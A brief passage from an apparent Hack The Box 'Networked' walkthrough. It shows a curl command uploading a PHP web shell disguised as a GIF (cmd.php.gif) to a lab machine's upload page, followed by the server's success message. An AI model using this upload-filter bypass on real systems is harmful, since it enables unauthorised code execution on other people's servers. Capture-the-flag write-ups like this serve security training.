 Let\'s give it a shot.

```
# curl -F "myFile=@cmd.php.gif;type=image/gif" -F "submit=go" http://10.10.10.146/upload.php
<p>file uploaded, refresh gallery</p>
```

<a class="image-popup">
![65789937.png](/assets/images/posts/networked-htb-walkthrough/65789937.png)
</a>

Awesome. It got uploaded.

<a class="image-popup">
![844b4736.png](/assets/images/posts/networked-htb-walkthrough/844b4736.png)
</a>
